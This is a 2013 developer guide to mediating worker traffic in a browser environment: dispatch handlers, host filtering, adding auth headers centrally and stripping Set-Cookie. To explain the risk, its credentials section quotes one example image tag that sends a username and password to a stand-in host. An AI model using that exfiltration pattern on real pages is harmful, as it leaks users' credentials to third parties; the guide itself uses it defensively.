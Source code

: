 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.setDispatchHandler(function(origin, request) {
	// pass the request to Link for fulfillment
	return Link.dispatch(request);
});
```

All worker servers will use this function to issue requests; it's up to the in-document servers whether to use `Environment.dispatch` rather than `Link.dispatch`.


## Common Patterns and Tools

### Link.parseUri

`Link.parseUri` wraps <a target="_top" href="http://stevenlevithan.com/demo/parseuri/js/">Stephen Levithan's parseUri</a>, a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parseUri(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.dispatch(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.dispatch(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth & Set-Cookie headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive <a target="_top" href="https://developer.mozilla.org/en-US/docs/Security/CSP">Content Security Policies</a>, the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.setDispatchHandler(function(origin, request) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(origin, request)) {
		Link.headerer(request.headers).setAuth(MySessionManager.getSession(origin, request));
	}
	// ...
});
```

It is also a good idea to scrub session headers such as 'Set-Cookie':

```javascript
Environment.setDispatchHandler(function(origin, request) {
	//...
	// dispatch the request
	return Link.dispatch(request)
		.then(function(response) { // on response codes 200-399
			delete response.headers['set-cookie'];
			return response;
		})
		.except(function(err) { // on response codes 400+
			delete err.response.headers['set-cookie'];
			return err;
		})
});
```

## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](../lib/environment.md)

